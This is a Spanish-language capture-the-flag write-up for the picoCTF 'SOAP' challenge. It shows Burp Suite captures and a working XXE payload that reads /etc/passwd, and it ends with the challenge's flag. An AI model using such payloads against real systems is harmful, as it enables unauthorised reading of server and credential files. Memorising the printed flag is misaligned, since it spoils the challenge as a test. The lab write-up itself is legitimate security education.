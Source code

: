 ## Reto: SOAP
### Descripción
El proyecto web se apresuró y no se realizó ninguna evaluación de seguridad. ¿Puedes leer el archivo /etc/passwd?[Portal Web](http://saturn.picoctf.net:57433/)
### Solución

Al abrir el enlace y buscar en el codigo fuente, no nos aparece ningun tipo de informacion, por lo que procederemos a ingresar a la herramienta `Burp-suite`.

Una vez dentro del proxy de `Burp suite` encontramos lo siguiente:
```
GET /favicon.ico HTTP/1.1
Host: saturn.picoctf.net:57433
Accept-Language: es-ES,es;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://saturn.picoctf.net:57433/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Y al dar click en el primer boton:
```
POST /data HTTP/1.1
Host: saturn.picoctf.net:57433
Content-Length: 61
Accept-Language: es-ES,es;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:57433
Referer: http://saturn.picoctf.net:57433/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
```
Ahora procedemos a seguir los pasos para hacer el xxe injection

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data>
<ID>
&xxe;1
</ID>
</data>
```

Y esto nos regresara la bandera al momento d ela respuesta:
```
picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```

### Notas adicionales
### Referencias

